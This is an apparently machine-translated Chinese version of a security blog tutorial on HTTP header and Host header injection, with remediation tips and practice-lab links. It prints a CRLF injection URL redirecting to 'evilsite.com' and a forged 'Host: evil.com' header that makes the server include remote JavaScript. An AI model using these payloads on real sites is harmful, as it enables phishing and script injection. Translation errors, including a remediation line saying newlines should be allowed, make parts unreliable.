


# HTTP 头注入

> 原文：<https://infosecwriteups.com/http-header-injection-4ba857fb9a16?source=collection_archive---------0----------------------->


照片由[乔丹·哈里森](https://unsplash.com/@jordanharrison?utm_source=medium&utm_medium=referral)在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄

**什么是 HTTP 头注入？**

HTTP 头注入是一个 web 安全漏洞，其中 web 应用程序从用户提供的输入中动态构造头。

HTTP 工作在*请求/响应模型*上。用户从 web 服务器请求资源，web 服务器相应地响应。HTTP 头用于请求必要的资源。标题可以分为两大类。请求和响应头。当用户提供的输入包含在 HTTP 响应中时，会出现此漏洞。这可能会导致许多问题，如绕过 CSRF 保护，重定向用户到不同的域或绕过 CSRF 保护有时。

**原因**



[来源](https://developpaper.com/http-host-header-attacks-for-web-security/)

HTTP 头注入的主要原因之一是 CRLF 注入。当反向代理和 web 服务器以不同的方式插入 HTTP 请求时，就会发生 CRLF 注入。攻击者可以利用 CRLF 注入绕过限制，访问禁止的页面，甚至导致 web 缓存中毒。

例如:

让我们考虑一个容易受到头部注入攻击的网站。它接受 URL 并在它前面添加一个位置头。假设网址是**www.vulnearblesite.com/page1.php**

后端获取 URL，删除域名并将其更改为[**www.sub1.vulnerable.com**](http://www.sub1.vulneable.com/)，然后将**page1.php**追加到其中。于是就变成了，[www.sub1.vulnerable.com/page1.phpT21](http://www.sub1.vulnerable.com/page1.php)

然后，它会回应:

```
**Location: www.sub1.vulnerable.com/page1.php**Note: The Location header is used by the browser to redirect to the mentioned site.
```

攻击者可以利用这一点将受害者发送到恶意站点。

例如，如果 URL 是，

```
**www.vulnerablesite.com/page1.php**%0d%0a %0d%0a**Location:**%20**www.evilsite.com**
```

当由后端解析时，这将导致添加新的位置头，因为几乎没有新的行字符被添加到 URL ( *%0d%0a* )，所以服务器将其解释为新的行，并且新的头被添加到具有值**www.evilsite.com**的请求中。这会将受害者引向攻击者拥有的恶意网站。它可用于网络钓鱼目的，添加标头以绕过不同类型的安全保护，如 CSRF、添加 cookies 等。

```
From the server's browser's perspective this would look as:**Location: www.sub1.vulnerable.com/page1.php
Location: www.evilsite.com**
```

**后果**

这可能会导致 HTTP 主机标头注入，这是 HTTP 标头注入的一种。其中攻击者注入主机标头，网站将用户重定向到定义的标头。

有时，网站使用主机标头来生成密码重置令牌，即主机标头中的域直接用于密码重置的域，因此这可能会导致密码重置令牌受损。

如果应用程序提供缓存的网页、跨站点脚本和网络钓鱼攻击，这也会导致缓存中毒。

**主机表头注入:**

一台 web 服务器上可以托管多个子域。主机头指示 web 服务器使用哪个子域来检索资源。如果 web 服务器没有正确地手动加载它，它就可能成为各种攻击的目标。

例如，web 服务器从用户请求中获取主机头，并使用它来获取 **important.js** 文件。这个文件托管在服务器上，源代码中没有添加完整的 URL，只有一个带有文件名的/

```
**Server-Side Code**include(‘$_SERVER[‘host’]’.’/important.js’)
```

当您向主机为【vulnsite.com 的 web 服务器发送请求时，由于后端编写的代码不安全，会发生以下情况。

```
**Host: vulnsite.com****include(“vulnsite.com/important.js”);**
```



[来源](https://cpdos.org/)

如果它容易受到主机标头注入的攻击，攻击者就可以利用它来包含易受攻击的脚本。如果攻击者在主机报头(**主机:evil.com**)中提供 evil.com，将会发生以下情况。

```
**include(‘evil.com/important.js’);**
```

因为许多企业使用 web 缓存服务器，所以该响应会被 web 服务器缓存，然后也会提供给其他用户，这可能会导致网络钓鱼、使用 XSS 窃取 cookie 以及各种其他恶意活动。

**补救**

*   在用户输入或 URL 中应该允许换行符，并且应该在需要的地方使用白名单来防止换行符被使用。
*   检查您是否不支持任何可用于构建类似攻击的额外标头，如 X-Forwarded-Host，因为这可能是一个危险信号。请记住，在您的环境中，默认情况下不一定支持这些功能。
*   使用绝对 URL 时，应该在配置文件中手动设置当前域，使用相对 URL 时，应该使用该值的值而不是主机头。例如，使用这种操作方法可以消除密码重置中毒的威胁。

**实习实验室**

你可以在这些实验中练习

*   [通过主机头的密码重置中毒](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning)
*   [通过主机头绕过认证](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass)

**结论**

网络变得更加复杂。如果没有应用最佳的编码和安全实践，很容易受到各种漏洞的攻击。因此，定期对您的网站进行渗透测试非常重要，这样您的网站就不会受到漏洞和攻击者的攻击。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！